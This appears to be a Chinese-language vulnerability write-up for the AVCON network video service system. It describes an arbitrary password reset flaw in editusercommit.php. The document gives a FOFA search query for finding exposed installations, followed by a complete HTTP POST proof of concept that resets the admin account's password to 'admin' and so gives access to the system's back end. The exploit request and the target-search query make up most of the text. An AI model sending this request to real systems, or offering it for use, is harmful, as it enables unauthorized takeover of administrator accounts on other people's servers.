# AVCON-网络视频服务系统editusercommit.php存在任意用户重置密码漏洞

AVCON-网络视频服务系统通过接口 `/avcon/av_user/editusercommit.php?currentpage=1`  重置admin用户的密码，从而登录系统后台。

## fofa

```yaml
title=="avcon 网络视频会议系统"
```
![image](https://github.com/user-attachments/assets/edcc38dc-d066-47f0-91c2-2aa42fcf1297)

## poc

```java
POST /avcon/av_user/editusercommit.php?currentpage=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 226
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=4

userid=admin&username=administration&password=admin&rpassword=admin&question=admin&answer=123&gender=%E7%94%B7&birthday=0000-00-00&edutypeid=0&phone=&mobile=&email=&address=&postcode=&go=-2&confirm=+++%E7%A1%AE%E5%AE%9A+++
```

